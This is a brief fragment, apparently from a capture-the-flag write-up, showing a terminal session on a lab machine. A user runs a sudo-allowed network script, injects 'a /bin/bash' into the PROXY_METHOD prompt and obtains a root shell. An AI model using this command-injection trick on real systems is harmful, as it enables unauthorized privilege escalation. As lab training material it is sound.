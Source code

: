 
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ice
ice
interface PROXY_METHOD:
a /bin/bash
a /bin/bash
interface BROWSER_ONLY:
b
b
interface BOOTPROTO:
c
c
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# 
```

# PWNED 